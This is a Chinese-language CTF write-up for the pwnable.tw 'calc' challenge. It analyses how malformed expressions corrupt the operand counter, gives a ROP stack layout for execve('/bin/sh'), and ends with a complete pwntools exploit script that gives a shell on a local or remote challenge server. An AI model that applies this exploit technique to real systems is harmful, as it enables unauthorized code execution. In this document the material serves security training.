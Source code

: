 # pwnable.tw-calc

#### 题目分析

题目是静态链接，只开了NX没有办法shellcode，题目的功能是大致就相当于一个计算器，很容易就逆清楚了。

#### 漏洞分析

主要漏洞在于，程序没有对类似于"+3"，这样的不完整的表达式进行检查。而程序在进行操作数寻址的时候是根据操作数缓冲区头部的计数器完成的（如下代码），而对于类似于"+3"这种残缺的表达式可以修改头部的计数值，造成在访问操作数时的越界。

```c
 if ( op_number > 0 ),
      {
        current_num_idx = (*op_number_buffer)++;// 计数
        op_number_buffer[current_num_idx + 1] = op_number;// 保存操作数
      }
```

#### 漏洞利用

###### 任意读

首先这种以操作符直接开头的表达式可以修改操作数计数器，如果只是简单的一个类似于"+360"这样的表达式，可以将计数器的值修改为360从而在打印结果的时候越界打印出栈中一些重要的数据。比如说栈中的地址。

```c
if ( parse_expr(expr, op_number_buffer) )
    {
      printf("%d\n", op_number_buffer[op_number_buffer[0]]);
      fflush(stdout);
    }//打印结果是用计数器寻址
```

###### 任意写

而如果过是类似于"+360+1"，这种比较复杂的残缺表达式，在第一次加法将计数器修改到"360"之后第二次加法就可以对"360"号单元的内容进行修改，也就是任意写。这样就可以通过idx的修改，来在栈中进行ROP。

###### 利用

因为式静态链接，所以程序有很多可用的gadget，虽然没有system函数，但是可以通过系统调用的方式直接拿到shell。需要eax = 11,ebx = bin_sh_addr,ecx = edx = 0,然后int 0x80就可以拿到shell。因为没有/bin/sh的字符串，所以需要自己在栈中写入然后拿到栈地址。

下面是栈帧的布局。

```
idx		content
361		pop_eax_ret
362		11
363		pop_edx_ecx_ebx_ret
364		0
365		0
366		bin_sh_addr
367		/bin
368		/sh/x00
```

第一次通过+360打印ebp中保存的栈基址。就可以计算出/bin/sh的偏移。

每一次写入rop都需要先将栈中原有的数据打印出来然后，将这个单元减去这个数据，就可以将这一个单元清零。然后再加上需要写入的数据就可以写入rop链。所以每次写入rop都要进行三次交互。

整个rop写入完毕之后，输入一个不是算式的字符串就可以让程序返回，拿到shell。

### EXP:

```python
#coding=utf-8
from pwn import *
#context.log_level = 'debug'
local = 1
exec_file="./calc"
context.binary=exec_file
context.terminal=["tmux","splitw","-h"]
elf=ELF(exec_file,checksec = True)
argv=[]
if local :
    a=process(exec_file)
    if context.arch == "i386" :
        libc=ELF("/lib/i386-linux-gnu/libc.so.6",checksec = False)
    elif context.arch == "amd64" :
        libc=ELF("/lib/x86_64-linux-gnu/libc.so.6",checksec = False) 
else:
    a=remote("node3.buuoj.cn",26826)
    libc=ELF("./libc.so.6")
def get_base(a):
    print a.libs()
    print a.argv[0]
    text_base = a.libs()[a._cwd+a.argv[0].strip('.')]
    for key in a.libs():
        if "libc.so.6" in key:
            return text_base,a.libs()[key]
def debug():
    #text_base,libc_base=get_base(a)
    #script="set $text_base="+str(text_base)+'\n'+"set $libc_base="+str(libc_base)+'\n'
    script='''
    b *0x08049411
    '''
    gdb.attach(a,script)
def fuck(address):
    n = globals()
    for key,value in n.items():
        if value == address:
            return success(key+"  ==>  "+hex(address))
def menu(idx):
    a.sendlineafter("",str(idx))
def add(size):
    return 

def delete(idx):
    return
    
def edit(idx,content):
    return 
    
def show(idx):
    return 
relloc_offset = [0,2,4,6,0xb,0xc,0x10]
#payload='\x00'*0x33+p64(0x00000000fbad1800)+p64(0)*3+'\x00'    #stdout-0x33

def transform(current):
    if current < 0:
        current += 0x100000000
    fuck(current)
    return(current)

payload =  "+9*9" * 4 + "+3*5" + "+3*6"
a.sendlineafter("=== Welcome to SECPROG calculator ===\n",payload)
canary = int(a.recvline(keepends=False),10)
canary = transform(canary)


payload = "+360"
a.sendline(payload)
stack_addr = int(a.recvline(keepends=False),10)
stack_addr = transform(stack_addr)

pop_eax_ret = 0x0805c34b
int_0x80 = 0x08049a21
pop_edx_ecx_ebx_ret = 0x080701d0

#debug()
ROP_chain = p32(pop_eax_ret) + p32(11) + p32(pop_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(stack_addr) + p32(int_0x80) + "/bin" + "/sh\x00"
print len(ROP_chain)/4
for i in range(len(ROP_chain)/4):
    payload = "+36" + str(i+1)
    a.sendline(payload)
    bins = int(a.recvline(keepends=False),10)
    if bins < 0:
        bins = -bins
        payload = "+36" + str(i+1) + '+' + str(bins)
        a.sendline(payload)
        a.recvline(keepends=False)
    elif bins == 0:
        print("its zero.")
    else:
        payload = "+36" + str(i+1) + '-' +str(bins)
        a.sendline(payload)
        a.recvline(keepends=False)
    gadget = u32(ROP_chain[i*4:(i+1)*4])
    if  gadget > 0x7fffffff: 
        payload = "+36" + str(i+1) + "-1" + "-" + str(0xffffffff - gadget)
        a.sendline(payload)
        a.recvline(keepends=False)
    elif gadget == 0:
        continue
    else :
        payload = "+36" + str(i+1) + '+' +str(gadget)
        a.sendline(payload)
        a.recvline(keepends=False)
a.sendline("shell")
a.interactive()

```

